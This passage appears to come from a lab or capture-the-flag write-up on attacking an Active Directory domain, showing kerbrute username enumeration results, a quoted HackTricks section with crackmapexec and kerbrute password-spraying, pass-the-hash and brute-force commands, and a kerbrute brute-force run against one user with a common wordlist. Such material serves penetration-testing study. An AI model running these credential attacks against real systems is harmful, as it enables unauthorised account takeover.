 ```
2024/09/03 11:32:33 >  [+] VALID USERNAME:       charlie@SOUPEDECODE.LOCAL ←
2024/09/03 11:34:53 >  [+] VALID USERNAME:       dc01@SOUPEDECODE.LOCAL

[...]
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Active Directory Methodology | Password Spraying / Brute Force](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

[**#Exploitation from Linux (or all)**]

- Using **crackmapexec**:
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

- Using [**kerbrute**](https://github.com/ropnop/kerbrute) (Go):
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`kerbrute bruteuser --dc 192.168.56.103 -d 'SOUPEDECODE.LOCAL' /usr/share/wordlists/rockyou.txt 'charlie'`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 09/03/24 - Ronnie Flathers @ropnop

2024/09/03 11:38:05 >  Using KDC(s):
2024/09/03 11:38:05 >   192.168.56.103:88

```